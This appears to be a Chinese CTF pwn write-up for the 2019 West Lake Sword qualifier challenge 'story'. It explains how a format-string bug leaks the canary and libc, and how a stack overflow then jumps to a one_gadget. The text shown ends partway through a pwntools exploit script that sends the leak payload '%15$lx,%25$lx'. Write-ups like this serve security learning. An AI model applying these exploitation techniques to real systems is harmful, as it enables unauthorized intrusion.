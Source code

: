```yaml
---
layout: post
title:  "2019.04.08 西湖论剑网络安全技能大赛线上预选赛"
tags: [writeup, pwn, heap, ctf]
date: 2019-04-08
comments: false
---
```


# 西湖论剑线上预选赛pwn writeup







## story

checksec:

![5cab40a970813](https://i.loli.net/2019/04/08/5cab40a970813.png)

主函数

![5cab405c514f8](https://i.loli.net/2019/04/08/5cab405c514f8.png)

格式化字符串

![5cab40b6079bc](https://i.loli.net/2019/04/08/5cab40b6079bc.png)

栈溢出，不过有canary

![5cab40bd10829](https://i.loli.net/2019/04/08/5cab40bd10829.png)

通过格式化字符串泄露canary和libc(栈上有个位置储存着__libc_start_main+240)。

![5cab41ea0d77d](https://i.loli.net/2019/04/08/5cab41ea0d77d.png)

通过栈溢出跳到onegadget。

exploit:

```python
#!/usr/bin/env python
# -*- coding=utf8 -*-
"""
# Author: le3d1ng
# Created Time : 2019年04月07日 星期日 11时25分01秒
# File Name: exp.py
# Description:
"""
from pwn import *

io = process('./story')
context.log_level = 'debug'
context.terminal = ['terminator' , '-x' , 'sh' , '-c']
def debug():
    gdb.attach(io)
    io.interactive()
io.recv()

payload = "%15$lx,%25$lx"
io.sendline(payload)
io.recvuntil("Hello ")
canary = int(io.recv(16),16)
```